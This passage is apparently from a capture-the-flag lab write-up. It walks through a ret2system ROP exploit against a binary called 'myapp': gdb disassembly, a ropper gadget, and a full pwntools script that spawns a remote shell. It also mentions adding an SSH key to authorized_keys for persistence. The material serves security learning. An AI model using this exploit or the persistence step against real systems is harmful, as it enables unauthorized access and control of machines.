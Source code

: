 It appears the memory section from `0x404000 - 0x405000` is writeable, which is more than enough space to write `/bin/sh` to. Then, we can find the addresses of `gets` and `system` by disassembling the main function

```
gdb-peda$ disas main
call   0x401040 <system@plt>
call   0x401060 <gets@plt>
```

Then, we need a `pop rdi; ret` gadget to write to these sections. This can be found using `ropper`.

<pre><code><strong>$ ropper -f myapp
</strong>0x000000000040120b: pop rdi; ret; 
</code></pre>

Then, we can put this all together in one script and execute it to get a shell.

```python
from pwn import *

context.arch = 'amd64'
elf = ELF('./myapp',checksec=False)
#p = elf.process()
p = remote("10.129.1.173", 1337)

offset = 120
junk = b'A' * offset
gets = p64(0x401060)
sys = p64(0x401040)
pop_rdi = p64(0x40120b)
write = p64(0x404000)

payload = junk + pop_rdi + write + gets + pop_rdi + write + sys

p.recvline()
p.sendline(payload)
p.sendline(b'/bin/sh\x00')
p.interactive()
```

<figure><img src="../../../.gitbook/assets/image (169) (3).png" alt=""><figcaption></figcaption></figure>

Then, grab the user flag. We can upgrade our shell by putting our public key within the `authorized_keys` file.

## Privilege Escalation
